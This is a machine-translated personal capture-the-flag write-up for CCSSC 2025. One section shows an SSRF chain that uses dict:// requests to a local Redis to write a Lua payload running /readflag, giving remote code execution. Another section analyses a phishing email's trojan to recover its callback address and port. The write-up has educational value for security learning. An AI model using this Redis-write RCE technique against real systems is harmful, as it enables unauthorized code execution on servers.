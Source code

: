 ```yaml
---
title: "CCSSSC2025"
date: 2025-01-05
draft: false
description: "CCSSC 2025"
summary: "CCSSC 2025 Personal WriteUP"
tags: ["writeup", "ctf"]
categories: ["writeup"]
---
```


{{< alert >}}
**WARNING！** This is a machine translated version of the [Chinese page](/posts/ccsssc2025/)
{{< /alert >}}

## WEB

### CachedVisitor

[Attachment](/attachments/ccsssc2025/fishingemail_25da885af63965bf249067b64099c319attachment_20250102090654845.zip)

Some useful tests:

![Proof of Internet Access](/img/posts/ccsssc2025/CachedVisitor-1.png)

![Proof of Any File Reading](/img/posts/ccsssc2025/CachedVisitor-2.png)

![Proof of dict protocol availability](/img/posts/ccsssc2025/CachedVisitor-3.png)

Container is connected to the network and can read files. The dict protocol is available and redis can be accessed

Analyzed the source code

```main.lua ```Read the contents between ```##LUA_START##``` and ```##LUA_END##``` from ```visit.script``` and run it as a script

```dockerfile
COPY flag /flag
COPY readflag /readflag
RUN chmod 400 /flag
RUN chmod +xs /readflag
```

The flag has permissions set and cannot be read directly.

Try to use redis to write visit.script to perform RCE

Write lua and test in local docker to output flag

```lua
##LUA_START##ngx.say(io.popen('/readflag'):read('*all'))##LUA_END##
```

Use redis to write lua to visit.script directly

```
dict://127.0.0.1:6379/set:payload:"##LUA_START##ngx.say(io.popen('/readflag'):read('*all'))##LUA_END##"
dict://127.0.0.1:6379/config:set:dir:/scripts/
dict://127.0.0.1:6379/config:set:dbfilename:visit.script
dict://127.0.0.1:6379/bgsave
```

After writing, you can execute what we wrote by sending a request at will Script

> ```dart{dc2e4048-dca7-4fa3-9803-8ee9d785af2b}```

## Misc

### Fishing E-mail

> Bob received a phishing email. Please find the return address and port of the Trojan.If the backlink address and port are 123.213.123.123:1234, then the sensitive information is MD5 (123.213.123.123:1234), that is, d9bdd0390849615555d1f75fa854b14f, which is based on the result of Cyberchef.

[Attachment](/attachments/ccsssc2025/CachedVisitor.zip)

```yaml
Content-Transfer-Encoding: base64
```

Found that the encoding format is Base64, we directly decode to view the content

```
Today is your 24th birthday, wish you Happy birthday to you

<div class="qmbox"><p style="font-family: -apple-system, BlinkMacSystemFont, &quot;PingFang SC&quot;, &quot;Microsoft YaHei&quot;, sans-serif; font-size: 10.5pt; color: rgb(46, 48, 51);">Today is your 24th birthday, wish you Happy birthday to you</p><div xmail-signature=""><xm-signature></xm-signature><p></p></div></div>

Birthday gift.zip(BIN)
```

I used CyberChef to extract the zip file and found that there was a password

```
Date: Mon, 11 Nov 2024 12:54:24 +0800
```

Based on birthday, guess the password ```20001111```

Successfully decompressed to get exe

After running in the virtual machine, capture the packet to get the reverse connection address!

![Capture result](/img/posts/ccsssc2025/Fishing_E-mail.png)

> MD5(222.218.218.218:55555)
>
> df3101212c55ea8c417ad799cfc6b509
